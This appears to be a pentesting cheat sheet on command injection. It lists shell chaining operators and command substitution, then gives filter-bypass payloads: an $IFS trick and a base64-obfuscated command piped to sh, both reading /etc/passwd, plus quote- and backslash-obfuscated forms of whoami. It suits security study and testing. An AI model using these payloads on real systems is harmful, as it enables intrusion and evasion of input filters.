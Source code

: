 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Command Injection

## Chaining and Invoking

```powershell
;    # Executes one command and then another
&    # Executes a command in the background, followed by the other one
|    # Redirects the output the first command as input to the second command
&&   # Executes the second command if the first command succeeds
||   # Executes the second command if the first command fails
```

Its also possible to inject command via **command substitution**, where the output of a command is captured and used in another context

```bash
$(command)    # Both windows and linux systems
`command`     # Only linux systems
```

## Bypasses

* [https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html](https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html)
* [https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#filter-bypasses](https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#filter-bypasses)

### Space Bypass

Avoid using spaces with **Internal Field Separator** `$IFS` . The default value of IFS is a space, a tab, and a newline.

```bash
cat$IFS/etc/passwd
```

```bash
# Only works in bash
{echo,Y2F0IC9ldGMvcGFzc3dk}|{base64,-d}|sh
```

### Blacklisted Words

```bash
# Quotes ' / "
w'h'o'a'm'i'     # Both windows and linux systems
wh''oami         # Both windows and linux systems
'w'h'o'a'm'i     # Only linux systems

# Backslashes
\w\h\o\a\m\i     # Only linux systems
w\h\o\a\m\i      # Only linux systems

# $()
wh$()oami        # Only linux systems
wh$(echo oa)mi   # Only linux systems

# ``
wh``oami         # Only linux systems
wh`echo oa`mi    # Only linux systems

# $@
wh$@oami         # Only linux systems
```

## References

[https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#filter-bypasses)\
[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
